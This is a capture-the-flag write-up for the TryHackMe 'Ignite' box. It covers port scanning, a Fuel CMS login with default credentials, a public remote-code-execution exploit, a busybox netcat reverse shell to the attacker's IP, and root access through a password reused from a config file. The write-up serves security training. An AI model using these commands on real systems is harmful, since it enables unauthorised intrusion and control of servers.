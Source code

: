 # THM - Ignite

### Ip: 10.10.181.250
### Name: Ignite
### Rating: Easy

------------------------------------------------

![thm_ignite_pic.png](../assets/ignite_assets/thm_ignite_pic.png)

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.181.250
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-19 16:05 CST
Nmap scan report for 10.10.181.250
Host is up (0.13s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.63 seconds
```

Looking at the page on port 80 wee see it is running Fuel cms v 1.4.

thm_ignite_site.png

We also notice that Nmap found a robots.txt page with the `/fuel` endpoint.

Heading to that page we find a simple login:

thm_ignite_login.png

We find we can login with `admin:admin`

thm_ignite_in.png

Looking for exploits I find: https://www.exploit-db.com/exploits/50477

### Exploitation

We can fire the exploit, with no changes needed to the code, with:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ python exploit.py -u http://10.10.181.250     
[+]Connecting...
Enter Command $whoami
systemwww-data


Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Which gives us a pseudo shell to work with, even if it is a bit wonky.

Let's issue a reverse shell one-line and catch a proper shell:

```
Enter Command $busybox nc 10.6.72.91 443 -e /bin/bash
```

This catches a shell back in our listener:

```
┌──(ryan㉿kali)-[~/THM/Ignite]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.181.250] 51170
hostname
ubuntu
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
```

One the shell is fully stabilized we can grab the first flag:

thm_ignite_user.png

### Privilege Escalation

Browsing the system looking for config files, we find an interesting password in the database.php file:

```
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php 
<SNIP>
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
```

Fortunately for us, this password was reused by root on the target, and we can use it to `su -` and drop into a root shell, where we can then grab the final flag:

thm_ignite_root.png

Thanks for following along!

-Ryan

-----------------------------------------------
